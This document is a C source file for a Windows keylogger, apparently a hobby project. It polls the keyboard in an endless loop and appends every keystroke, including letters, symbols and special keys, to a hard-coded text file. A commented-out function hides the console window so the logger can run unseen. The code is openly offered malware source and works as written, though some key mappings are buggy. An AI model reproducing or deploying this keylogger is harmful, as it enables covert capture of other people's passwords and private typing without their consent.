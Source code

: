 //# keylogger
//keylogger by C
#define _WIN32_WINNT 0x0500
#include <windows.h>
#include <winuser.h>
#include <stdio.h>
#include <stdbool.h>
#include<conio.h>
#include <unistd.h>
	void hide_the_console(){
	HWND hWnd = GetConsoleWindow();
    ShowWindow( hWnd, SW_MINIMIZE );  //won't hide the window without SW_MINIMIZE
    ShowWindow( hWnd, SW_HIDE );
}
 
//////////////////////////////// check key//////////////////////////////////////////////////////////////////////
int check_Shift(){
if	((GetKeyState(VK_SHIFT) & 0x8000) == 0x8000){return 1; }// shift on return 1, else return 0;
	return 0;
}
int check_Caps(){
		if ((GetAsyncKeyState(VK_CAPITAL))){return 1;}// Caps lock on return 1, else return 0;
	return 0;
}
int main(){
	int time=300;// to record exactly, you need to change it. sometime my progarm do not record acuarately, this number belong to your computer( sorry about my english:)))
	do{ 
	// hide_the_console(); this function hide your consolve screen. if u want to hide it, please usmask this funtion. turn off in task manager
	FILE *file1;
	file1=fopen("C:\\Users\\ADMIN\\3D Objects\\keylogger\\keylogger.txt","a+");
       /// check special key..................
//if// I used information of vitual key code (https://docs.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes)
if(check_Shift()==1){fputs("[SHIFT]",file1);Sleep(300);	}
if(check_Caps()==1){fputs("[CAPLOCK]",file1);Sleep(time);}
if(GetAsyncKeyState(VK_BACK)){fputs("[backspaces]",file1);Sleep(time);}
if((GetKeyState(VK_SPACE) & 0x8000) == 0x8000){fputs(" ",file1);Sleep(time);}
if((GetKeyState(VK_TAB) & 0x8000) == 0x8000){fputs("[TAB]",file1);Sleep(time);}
if((GetKeyState(VK_CLEAR) & 0x8000) == 0x8000){fputs("[CLEAR]",file1);Sleep(time);}
if((GetKeyState(VK_RETURN) & 0x8000) == 0x8000){fputs("[ENTER]",file1);Sleep(time);}
if((GetKeyState(VK_CONTROL) & 0x8000) == 0x8000){Sleep(300);fputs("[CTRL]",file1);}
if((GetKeyState(VK_MENU) & 0x8000) == 0x8000){fputs("[ALT]",file1);Sleep(time);}
if((GetKeyState(VK_ESCAPE) & 0x8000) == 0x8000){fputs("[ESC]",file1);Sleep(time);return 0;} //if you want to exit, type esc.
if((GetKeyState(VK_PRIOR) & 0x8000) == 0x8000){fputs("[PAGE_UP]",file1);Sleep(time);}
if((GetKeyState(VK_NEXT) & 0x8000) == 0x8000){fputs("[PAGE_DOWN]",file1);Sleep(time);}
if((GetKeyState(VK_END) & 0x8000) == 0x8000){fputs("<[END]>",file1);Sleep(time);}
if((GetKeyState(VK_HOME) & 0x8000) == 0x8000){fputs("<HOME>",file1);Sleep(time);}
if((GetKeyState(VK_LEFT) & 0x8000) == 0x8000){fputs("<[LEFT_ARROW]>",file1);Sleep(time);}
if((GetKeyState(VK_RIGHT) & 0x8000) == 0x8000){fputs("[RIGHT_ARROW]>",file1);Sleep(time);}
if((GetKeyState(VK_UP) & 0x8000) == 0x8000){fputs("[UP_ARROWS]",file1);Sleep(time);}
if((GetKeyState(VK_DOWN) & 0x8000) == 0x8000){fputs("[DOWN_ARROWS]",file1);Sleep(time);}
if((GetKeyState(VK_EXECUTE) & 0x8000) == 0x8000){fputs("[EXECUTE]",file1);Sleep(time);}
if((GetKeyState(VK_SNAPSHOT) & 0x8000) == 0x8000){fputs("[PRT_SC]",file1);Sleep(time);}
if((GetKeyState(VK_INSERT) & 0x8000) == 0x8000){fputs("[INSERT]",file1);Sleep(time);}
if((GetKeyState(VK_DELETE) & 0x8000) == 0x8000){fputs("[DEL]",file1);Sleep(time);}
if((GetKeyState(VK_HELP) & 0x8000) == 0x8000){fputs("[HELP]",file1);Sleep(time);}
if((GetKeyState(VK_F1) & 0x8000) == 0x8000){fputs("[F1]",file1);Sleep(time);}
if((GetKeyState(VK_F2) & 0x8000) == 0x8000){fputs("[F2]",file1);Sleep(time);}
if((GetKeyState(VK_F3) & 0x8000) == 0x8000){fputs("[F3]",file1);Sleep(time);}
if((GetKeyState(VK_F4) & 0x8000) == 0x8000){fputs("[F4]",file1);Sleep(time);}
if((GetKeyState(VK_F5) & 0x8000) == 0x8000){fputs("[F5]",file1);Sleep(time);}
if((GetKeyState(VK_F6) & 0x8000) == 0x8000){fputs("[F6]",file1);Sleep(time);}
if((GetKeyState(VK_F7) & 0x8000) == 0x8000){fputs("[F7]",file1);Sleep(time);}
if((GetKeyState(VK_F8) & 0x8000) == 0x8000){fputs("[F8]",file1);Sleep(time);}
if((GetKeyState(VK_F9) & 0x8000) == 0x8000){fputs("[F9]",file1);Sleep(time);}
if((GetKeyState(VK_F10) & 0x8000) == 0x8000){fputs("[F10]",file1);Sleep(time);}
if((GetKeyState(VK_F11) & 0x8000) == 0x8000){fputs("[F11]",file1);Sleep(time);}
if((GetKeyState(VK_F12) & 0x8000) == 0x8000){fputs("[F12]",file1);Sleep(time);}
if((GetKeyState(0x5B) & 0x8000) == 0x8000){fputs("[WINDOWN]",file1);Sleep(time);}
if((GetKeyState(0x5C) & 0x8000) == 0x8000){fputs("[WINDOWN]",file1);Sleep(time);}
if((GetKeyState(VK_BROWSER_BACK) & 0x8000) == 0x8000){fputs("[BROWSER_BACK]",file1);Sleep(time);}
if((GetKeyState(VK_BROWSER_REFRESH) & 0x8000) == 0x8000){fputs("[BROWSER_REFRESH]",file1);Sleep(time);}
if((GetKeyState(VK_BROWSER_SEARCH) & 0x8000) == 0x8000){fputs("[BROWSER_SEARCH]",file1);Sleep(time);}
if((GetKeyState(VK_BROWSER_FAVORITES) & 0x8000) == 0x8000){fputs("[BROWSER_FAVORITES]",file1);Sleep(time);}
if((GetKeyState(VK_BROWSER_FAVORITES) & 0x8000) == 0x8000){fputs("[BROWSER_FAVORITES]",file1);Sleep(time);}
if((GetKeyState(VK_VOLUME_MUTE) & 0x8000) == 0x8000){fputs("[VOLUME_MUTE]",file1);Sleep(time);}
if((GetKeyState(VK_VOLUME_DOWN) & 0x8000) == 0x8000){fputs("[VOLUME_DOWN]",file1);Sleep(time);}
if((GetKeyState(VK_VOLUME_UP) & 0x8000) == 0x8000){fputs("[VK_VOLUME_UP]",file1);Sleep(time);}
if((GetKeyState(VK_MEDIA_PLAY_PAUSE) & 0x8000) == 0x8000){fputs("[pause]",file1);Sleep(time);}
////check character and number
		////check special character if shift on
	if(check_Shift()==1){
		if((GetKeyState(48) & 0x8000) == 0x8000){fputs(")",file1);Sleep(200);}
		if((GetKeyState(33) & 0x8000) == 0x8000){fputs(")",file1);Sleep(200);}
		if((GetKeyState(50) & 0x8000) == 0x8000){fputs("@",file1);Sleep(200);}
		if((GetKeyState(51) & 0x8000) == 0x8000){fputs("#",file1);Sleep(200);}
		if((GetKeyState(52) & 0x8000) == 0x8000){fputs("$",file1);Sleep(200);}
		if((GetKeyState(53) & 0x8000) == 0x8000){fputs("%",file1);Sleep(200);}
		if((GetKeyState(54) & 0x8000) == 0x8000){fputs("^",file1);Sleep(200);}
		if((GetKeyState(55) & 0x8000) == 0x8000){fputs("&",file1);Sleep(200);}
		if((GetKeyState(56) & 0x8000) == 0x8000){fputs("*",file1);Sleep(200);}
		if((GetKeyState(57) & 0x8000) == 0x8000){fputs("(",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_5) & 0x8000) == 0x8000){fputs("\"",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_PLUS) & 0x8000) == 0x8000){fputs("+",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_COMMA) & 0x8000) == 0x8000){fputs("<",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_MINUS) & 0x8000) == 0x8000){fputs("_",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_PERIOD) & 0x8000) == 0x8000){fputs(">",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_2) & 0x8000) == 0x8000){fputs("?",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_1) & 0x8000) == 0x8000){fputs(":",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_4) & 0x8000) == 0x8000){fputs("{",file1);Sleep(200);}
		if((GetKeyState(VK_OEM_1) & 0x8000) == 0x8000){fputs("}",file1);Sleep(200);}
																						}
///caplock on, shift on
if(check_Shift()==1||check_Caps()==1){
	if((GetKeyState(0x41) & 0x8000) == 0x8000){fputs("A",file1);Sleep(200);}
		if((GetKeyState(0x42) & 0x8000) == 0x8000){fputs("B",file1);Sleep(200);}
		if((GetKeyState(0x43) & 0x8000) == 0x8000){fputs("C",file1);Sleep(200);}
		if((GetKeyState(0x44) & 0x8000) == 0x8000){fputs("D",file1);Sleep(200);}
		if((GetKeyState(0x45) & 0x8000) == 0x8000){fputs("E",file1);Sleep(200);}
		if((GetKeyState(0x46) & 0x8000) == 0x8000){fputs("F",file1);Sleep(200);}
		if((GetKeyState(0x47) & 0x8000) == 0x8000){fputs("G",file1);Sleep(200);}
		if((GetKeyState(0x48) & 0x8000) == 0x8000){fputs("H",file1);Sleep(200);}
		if((GetKeyState(0x49) & 0x8000) == 0x8000){fputs("I",file1);Sleep(200);}
		if((GetKeyState(0x4A) & 0x8000) == 0x8000){fputs("J",file1);Sleep(200);}
		if((GetKeyState(0x4B) & 0x8000) == 0x8000){fputs("K",file1);Sleep(200);}
		if((GetKeyState(0x4C) & 0x8000) == 0x8000){fputs("L",file1);Sleep(200);}
		if((GetKeyState(0x4D) & 0x8000) == 0x8000){fputs("M",file1);Sleep(200);}
		if((GetKeyState(0x4E) & 0x8000) == 0x8000){fputs("N",file1);Sleep(200);}
		if((GetKeyState(0x4F) & 0x8000) == 0x8000){fputs("O",file1);Sleep(200);}
		if((GetKeyState(0x50) & 0x8000) == 0x8000){fputs("P",file1);Sleep(200);}
		if((GetKeyState(0x51) & 0x8000) == 0x8000){fputs("Q",file1);Sleep(200);}
		if((GetKeyState(0x52) & 0x8000) == 0x8000){fputs("R",file1);Sleep(200);}
		if((GetKeyState(0x53) & 0x8000) == 0x8000){fputs("S",file1);Sleep(200);}
		if((GetKeyState(0x54) & 0x8000) == 0x8000){fputs("T",file1);Sleep(200);}
		if((GetKeyState(0x55) & 0x8000) == 0x8000){fputs("U",file1);Sleep(200);}
		if((GetKeyState(0x56) & 0x8000) == 0x8000){fputs("V",file1);Sleep(200);}
		if((GetKeyState(0x57) & 0x8000) == 0x8000){fputs("W",file1);Sleep(200);}
		if((GetKeyState(0x58) & 0x8000) == 0x8000){fputs("X",file1);Sleep(200);}
		if((GetKeyState(0x59) & 0x8000) == 0x8000){fputs("Y",file1);Sleep(200);}
		if((GetKeyState(0x5A) & 0x8000) == 0x8000){fputs("Z",file1);Sleep(200);}
	
	
																									}
//caplock off, shift off
if((GetKeyState(0x41) & 0x8000) == 0x8000){fputs("a",file1);Sleep(200);}
if((GetKeyState(0x42) & 0x8000) == 0x8000){fputs("b",file1);Sleep(200);}
if((GetKeyState(0x43) & 0x8000) == 0x8000){fputs("c",file1);Sleep(200);}
if((GetKeyState(0x44) & 0x8000) == 0x8000){fputs("d",file1);Sleep(200);}
if((GetKeyState(0x45) & 0x8000) == 0x8000){fputs("e",file1);Sleep(200);}
if((GetKeyState(0x46) & 0x8000) == 0x8000){fputs("f",file1);Sleep(200);}
if((GetKeyState(0x47) & 0x8000) == 0x8000){fputs("g",file1);Sleep(200);}
if((GetKeyState(0x48) & 0x8000) == 0x8000){fputs("h",file1);Sleep(200);}
if((GetKeyState(0x49) & 0x8000) == 0x8000){fputs("i",file1);Sleep(200);}
if((GetKeyState(0x4A) & 0x8000) == 0x8000){fputs("j",file1);Sleep(200);}
if((GetKeyState(0x4B) & 0x8000) == 0x8000){fputs("k",file1);Sleep(200);}
if((GetKeyState(0x4C) & 0x8000) == 0x8000){fputs("l",file1);Sleep(200);}
if((GetKeyState(0x4D) & 0x8000) == 0x8000){fputs("m",file1);Sleep(200);}
if((GetKeyState(0x4E) & 0x8000) == 0x8000){fputs("n",file1);Sleep(200);}
if((GetKeyState(0x4F) & 0x8000) == 0x8000){fputs("o",file1);Sleep(200);}
if((GetKeyState(0x50) & 0x8000) == 0x8000){fputs("p",file1);Sleep(200);}
if((GetKeyState(0x51) & 0x8000) == 0x8000){fputs("q",file1);Sleep(200);}
if((GetKeyState(0x52) & 0x8000) == 0x8000){fputs("r",file1);Sleep(200);}
if((GetKeyState(0x53) & 0x8000) == 0x8000){fputs("s",file1);Sleep(200);}
if((GetKeyState(0x54) & 0x8000) == 0x8000){fputs("t",file1);Sleep(200);}
if((GetKeyState(0x55) & 0x8000) == 0x8000){fputs("u",file1);Sleep(200);}
if((GetKeyState(0x56) & 0x8000) == 0x8000){fputs("v",file1);Sleep(200);}
if((GetKeyState(0x57) & 0x8000) == 0x8000){fputs("w",file1);Sleep(200);}
if((GetKeyState(0x58) & 0x8000) == 0x8000){fputs("x",file1);Sleep(200);}
if((GetKeyState(0x59) & 0x8000) == 0x8000){fputs("y",file1);Sleep(200);}
if((GetKeyState(0x5A) & 0x8000) == 0x8000){fputs("z",file1);Sleep(200);}				
if((GetKeyState(VK_OEM_5) & 0x8000) == 0x8000){fputs("\"",file1);Sleep(200);}
if((GetKeyState(VK_OEM_PLUS) & 0x8000) == 0x8000){fputs("=",file1);Sleep(200);}
if((GetKeyState(VK_OEM_COMMA) & 0x8000) == 0x8000){fputs(",",file1);Sleep(200);}
if((GetKeyState(VK_OEM_MINUS) & 0x8000) == 0x8000){fputs("-",file1);Sleep(200);}
if((GetKeyState(VK_OEM_PERIOD) & 0x8000) == 0x8000){fputs(".",file1);Sleep(200);}
if((GetKeyState(VK_OEM_2) & 0x8000) == 0x8000){fputs("/",file1);Sleep(200);}
if((GetKeyState(VK_OEM_1) & 0x8000) == 0x8000){fputs(";",file1);Sleep(200);}
if((GetKeyState(VK_OEM_4) & 0x8000) == 0x8000){fputs("[",file1);Sleep(200);}
if((GetKeyState(VK_OEM_1) & 0x8000) == 0x8000){fputs("]",file1);Sleep(200);}					
fclose(file1);
	} while(1!=0);
	return 0;
}

